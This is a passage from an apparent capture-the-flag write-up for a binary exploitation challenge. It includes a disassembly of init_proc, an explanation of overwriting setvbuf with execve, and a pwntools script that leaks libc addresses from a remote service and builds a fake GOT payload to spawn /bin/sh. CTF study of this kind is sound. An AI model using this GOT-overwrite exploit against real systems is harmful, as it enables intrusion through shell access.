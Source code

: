 ```
   0x000000000040089f <+4>:	mov    rax,QWORD PTR [rip+0x2007ea]        # 0x601090 <stdin@@GLIBC_2.2.5>
   0x00000000004008a6 <+11>:	mov    ecx,0x0
   0x00000000004008ab <+16>:	mov    edx,0x2
   0x00000000004008b0 <+21>:	mov    esi,0x0
   0x00000000004008b5 <+26>:	mov    rdi,rax
   0x00000000004008b8 <+29>:	call   0x400750 <setvbuf@plt>
   0x00000000004008bd <+34>:	mov    rax,QWORD PTR [rip+0x2007bc]        # 0x601080 <stdout@@GLIBC_2.2.5>
   0x00000000004008c4 <+41>:	mov    ecx,0x0
```
Why call `init_proc`?  Within `init_proc`, `setvbuf` is called,  which we overwrite with `execve`. At `flush(stdout)` first argument is a pointer to "/bin/sh" and the 3rd argument is a pointer to NULL, and jumping to `init_proc+21` sets the 2nd argument as NULL.

`execve` is successfully called with all arguemnts set.


Final exploit :
```python
from pwn import *

s=remote("138.68.67.161", 20004)

def leak(addr,size=8):
	s.sendlineafter(" >",str(1))
	s.sendlineafter(" [#] Enter Where: ",str(addr))
	s.recvline()
	val =  s.recv(size)
	return val

def write(where,what,val = 0):
	if (val == 1):
		s.sendlineafter(" >",str(3))
	else:
		s.sendlineafter(" >",str(2))
	s.sendlineafter(" [#] Enter Where: ",str(where))
	s.sendlineafter(" [#] Enter What: ",str(what))


ret = 0x000040092F
code_block = 0x000000000400A50
fflush_got = 0x000000000601050
puts_got = 0x0000000000601018
printf_got = 0x000000000601030
exit_got = 0x000000000601068
write_got = 0x000000000601020
codeBlock = 0x0000000400AA9

got_start = 0x000000000601000

stdin = u64(leak(0x601090))
log.info("stdin @ " + hex(stdin))
buf_base = stdin +0x38

puts_libc = u64(leak(puts_got))
libcBase = puts_libc-0x691c0
log.info("libc base @ " + hex(libcBase))
system = libcBase + 0x40010
execve = libcBase + 0xb7e80
log.info("execve @ " + hex(execve))

fake_got = "1\n" + "\x00"*6 + p64(0) + p64(ret)*8 +  p64(0x0000000004008B0) +p64(execve) +p64(ret)*2 + "/bin/sh\x00" + p64(0) + p64(0x601070)*6
```